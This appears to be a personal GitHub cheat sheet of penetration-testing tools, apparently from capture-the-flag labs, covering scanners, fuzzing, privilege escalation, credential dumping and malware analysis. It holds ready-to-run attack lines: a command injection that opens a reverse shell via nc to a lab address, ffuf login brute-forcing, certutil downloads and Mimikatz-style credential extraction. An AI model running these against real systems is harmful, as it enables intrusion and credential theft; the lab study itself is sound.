 # CyberSecResources
List of tools/resources for Cybersecurity
## Resources
- https://github.com/khanhnnvn/CEHv10/blob/master/Labs/CEHv10%20Module%2006%20System%20Hacking.pdf
- https://payloadplayground.com/
- https://www.revshells.com/

## Websites
### Web Scanner
  - Burpsuite
  - OWASP ZAP
  - Vega
  - nmap
  - nikto
  - uniscan
  - ffuf
  - Arachni (Modular scanner with great CLI and web GUI)
  - Wapiti (Lightweight scanner for GET/POST attack surfaces)
  - SQLmap (SQL Injection + Command execution within SQL)
  - XSStrike (XSS scanner with payload fuzzing)
  - ```cat /usr/share/wordlists/rockyou.txt | grep -v "#" | grep -v "!" | grep -v "%" | grep -v "?" | grep -v "/" >> /usr/share/wordlists/rockyou3.txt```
  - ```cadaver http://192.68.0.51/dav/```

### Important Commands
    - ``` ffuf -w /path/to/wordlist -u https://target/FUZZ ```
    - ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/signup -mr "username already exists" ```
    - ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/login -fc 200 ```
  - ```sqlmap -u "http://example.com/login.php" --data "username=admin&password=test" --dbs```
  - ```ldapsearch -x -h 10.10.10.25 -b "(objectclass=user)" | grep sAMAccountName```
  - ```nmap --script ldap-rootdse 10.10.10.0/24```
  - ```certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe```
  - ```sudo responder -I eth0 -dwP```
  - PHP Filter Chaining (https://github.com/synacktiv/php_filter_chain_generator/tree/main)
    - How to use? https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/
  - sudo mount -t cifs //target-IP/cyberq /mnt/cyberq -o guest
  - ```nxc smb 10.10.207.204 -u usernames.txt -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding```

  - knockpy To discover subdomains

### SSRF, RCE, XXE, LFI Helpers
  - SSRFire – SSRF exploitation automation (Python)
  - liffy – LFI to RCE using wrappers, filters, or logs
  - Kiterunner – Advanced wordlist-based directory busting with support for Swagger/OpenAPI
  - tplmap – Server-side template injection tool

### Spiders & Path Traversal
- Feroxbuster
- Dirsearch
- FFUF
- Dirb
- OWASP ZAP
- Burpsuite

## Privilege Escalation
### Linux
- LinPeas https://github.com/peass-ng/PEASS-ng
- DirtyCow https://github.com/firefart/dirtycow // https://github.com/firefart/dirtycow/blob/master/dirty.c
- linux-exploit-suggester
- https://www.revshells.com/
- https://github.com/c3l3si4n/pwnkit/tree/main OR 
- Encode payload in URL
-     ```curl -s 'http://10.10.7.56/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.186 4443 >/tmp/f;'```
  
### Windows
- BeRoot.exe
- WinPeas https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- PowerUp.ps1

| Tool | Platform | Description |
| --------- | --------- | ----------- |
| winPEASx64.exe | Windows | Windows local enum (binary, no install) |
| PowerUp.ps1 | Windows | PowerShell-based privilege checks |
| Seatbelt | Windows | Targeted enumeration (token, policy, env) |
| SharpUp | Windows | C# version of PowerUp |
| AccessChk (Sysinternals) | Windows | Privilege and permissions checker |
| Enum.exe | Windows | Legacy tool for shares, users, etc. |
| net commands | Built-in | net user, net share, net localgroup etc. |
| WMIC | Built-in | System config and user query tool |

### Crack Passwords (Windows)
- L0phtCrack 7 – GUI cracking suite
- Mimikatz – Extracts credentials, SAM secrets, tickets
- CrackMapExec – Swiss army knife for Active Directory
- pwdump7 – Dump hashes from SAM
- secretsdump.py (Impacket) – Extract NTLM hashes from SAM + SYSTEM

## Enumerate OS
- nmap
- enum4linux
- uniscan

## Find Exploit-db Exploits commands line
- searchsploit

## Malware Analysis
### Offline Malware Analysis

#### Static

##### File Fingerprinting
- MD5/SHA2 Message Digest 

##### String Search
- PE Studio
- DIE
- FLOSS (Fire Eye) 
- Strings (Microsoft) 
- BinText

##### Packing/Obfuscation
- PEid (Find must common crypters, compilers and packer)
- DIE (Detect it Easy for ELF Malware)

##### Portable Executable information
- PE Explorer (EXE, ActiveX, DLL)

##### Identifying File Dependency
- Dependency Walker
- Virus Total

##### Malware Disassembly 
- IDA Pro
- Ghidra
- OllyDbg

### Malware Analysis Online
- https://hybrid-analysis.com/
- https://www.virustotal.com/
- https://whois.domaintools.com
- https://toolbar.netcraft.com/site_report?url
- https://www.robtex.com

No Distribution of results
- https://nodistribute.com/ # Preferred
- https://antiscan.me/
- https://www.virscan.org/language/en/ # Not tested
- https://spyralscanner.net/

### Additional
- Cuckoo sandbox
- Virusshare.com
- Malware traffic analysis
- certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe
